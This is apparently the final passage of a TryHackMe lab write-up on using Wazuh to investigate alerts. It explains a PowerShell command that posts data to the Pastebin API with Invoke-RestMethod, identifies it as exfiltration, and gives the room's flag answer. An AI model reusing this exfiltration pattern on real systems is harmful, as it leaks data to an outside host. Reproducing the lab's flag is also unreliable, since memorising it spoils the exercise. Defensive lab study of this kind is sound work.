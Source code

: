 * ``$url = "https://pastebin.com/api/api_post.php"`` Stores the Pastebin API endpoint URL for submitting data

* `$postData = @{ ... }` Creates a hashtable containing POST request parameters

* `$response = Invoke-RestMethod -Uri $url -Method Post -Body $postData` Sends the HTTP POST request using the PowerShell Invoke-RestMethod

* `Write-Host "Your paste URL: $response"` Outputs the resulting Pastebin link to the console 

As we can see the command is clearly attempting to exfiltrate the data using Pastebin. 

Final Answer:

`THM{M0N1T0R_1$_1N_3FF3CT}` 

## Final Notes

While this room was fairly basic, and in a real scenario this attack would be much less telegraphed, I still learned a lot. I had previously only used Splunk, and a bit of Elastic, so learning how to navigate Wazuh has further helped me understand how to search for specific alerts, and how to discover true positives/malicious activity. This room has been a great prelude to my attempt to implement Wazuh in my homelab, and has further shown me how to follow a basic attack chain. Thanks for reading!
